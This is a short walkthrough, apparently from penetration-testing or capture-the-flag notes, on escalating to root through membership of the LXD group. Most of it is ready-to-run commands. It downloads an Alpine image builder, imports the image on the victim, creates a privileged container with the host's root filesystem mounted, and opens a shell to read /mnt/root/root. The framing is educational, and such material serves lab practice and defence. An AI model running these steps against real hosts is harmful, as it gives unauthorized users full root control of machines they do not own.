Check for user groups by means of the shell command `id`.

#### LXD group 

LXD is a system container and virtual machine manager. If a local user belongs to "lxd" group, then it could instantly escalate the privileges to root on the host operating system.

On the attacker machine:

- Download build-alpine:

      wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
      
- Execute the script that will build an Alpine image as compressed `tar.gz` file:

      sudo bash build-alpine
      
- Transfer the `tar.gz` file to the target machine.


On the victim machine:

- Add the Alpine image as an LXD image:

      lxc image import ./alpine-v3.15-x86_64-20220114_1458.tar.gz --alias alpine_image

- Check the imported image (you should see an image called "alpine_image"):

      lxc image list
      
- Exploit:

      lxc init alpine_image ignite -c security.privileged=true
      lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
      lxc start ignite
      lxc exec ignite /bin/sh
      
Once inside the container, navigate to `/mnt/root` to see the whole filesystem of the victim machine.
You could access to `/mnt/root/root` to retrieve a flag.
